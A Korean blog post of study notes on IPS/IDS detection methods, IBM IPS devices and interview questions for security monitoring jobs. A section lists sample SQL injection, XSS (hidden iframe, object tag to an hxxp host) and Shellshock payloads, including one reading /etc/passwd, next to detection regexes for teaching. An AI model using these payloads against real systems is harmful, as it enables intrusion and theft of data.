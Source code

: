 ```yaml
---
layout : post
title : IPS/IDS
---
```


- Signature - SQL Injection 알려진 구문을 탐지 

- Threshold - 임계치 설정, DOS 공격 탐지

- 행위기반 - 보편화되진 않지만 쓰이고 있긴 하다.

  ​	  	  미래에는 딥러닝, AI 탑재해서 쓸 듯

- IPS - 탐지된 패킷을 솔루션장비에서 물고있다가 정탐으로 인식되면 버린다.

  ​	 패킷에 스트링을 검색하여 탐지

  ​	 IDS에 차단하는 기능을 가지고 있는 것

  ​	 IPS는 임계치 방식에 특화되어있지 않다.

<br>

### IBM IPS 장비

*Response Filters*

- Event 기준
- src IP, dst IP 설정
- block, ignore 선택

<br>

*탐지 엔진 순서*

- Firewall
- Response Filter
- User Define Rule
  - String만 등록(한계가 있음)
  - SNORT 엔진 일부 탑재 OpenSignature(이걸 더 많이 사용함)
  - Tuning Parameter(고급설정)

<br>

*XGS*

- IBM 차세대 IPS 장비
- SNORT 엔진 전체 탑재
- 자체 SSL 인증서 등록(암호화/복호화)
- 각각의 네트워크 구성에 따른 다른 정책 적용

<br>

<br>

## 대표적인 웹 공격 구문

- SQL Injection

  ~~~
  ' or 1=1--  
  ") or ("a"="a  
  and 1=(select @@VERSION) 
  and 1=(IS_SRVROLEMEMBER('sysadmin')) 
  OR 'Simple' BETWEEN 'R' AND 'T' 
  and (substring(db_name(),1,1))='a'
  elect * from (select name_const(version(),1),name_const(version(),1))a
  select * from table where 1=1 and ExtractValue(1,concat(0x01,version()))
  select * from table where 1=1 and UpdateXML(1,concat(0x01,version()),1)
  select * from table where (@:=1)or@ group by concat(@@version,@:=!@)having@||min(0)
  ~~~

  > Regex : /(\%27)\|(\')\|(\-\-)\|(\%23)\|(#)/ix
  >
  > Link : <https://www.symantec.com/connect/articles/detection-sql-injection-and-cross-site-scripting-attacks>

  <br>

- XSS

  ~~~
  <script>alert("test");</script> 
  <iframe src=" hxxp://abc.com" width="0" height="0" frameborder="0"></iframe>
  <object width=0 height=0 sytle=display:none; type=text/xscriptlet data=mk:@MSITStore:mhtml:c:\abc.mht! hxxp://abc.com/attack_chm::exploit.html></object>
  ~~~

  > Regex : /((\%3C)\|<)((\%2F)\|\/)\*[a-z0-9\%]+((\%3E)\|>)/ix
  >
  > Link : <https://www.symantec.com/connect/articles/detection-sql-injection-and-cross-site-scripting-attacks>

  <br>

- Bash ShellShock

  ~~~
  User-Agent : () { :;}; echo bashtest>/tmp/test
  User-Agent : () { :; }; echo $(</etc/passwd)
  User-Agent : () { :; }; /bin/eject" hxxp://example.com/
  HTTP_USER_AGENT=() { :; }; /bin/eject
  ~~~

  > Regex : \"((?:\[^\"\]\|\\\")*)\"
  >
  > Link : <https://stackoverflow.com/questions/28115717/regexp-to-parse-apache2-log-handle-shellshock-bash-hack>

<br><br>

### 배치면접 관제 질문

> FW가 뭐에요?
>
> IDS가 뭐에요?
>
> IPS가 뭐하는 거에요?
>
> VPN 써봤어요?
>
> NAT 설정해봤어요?

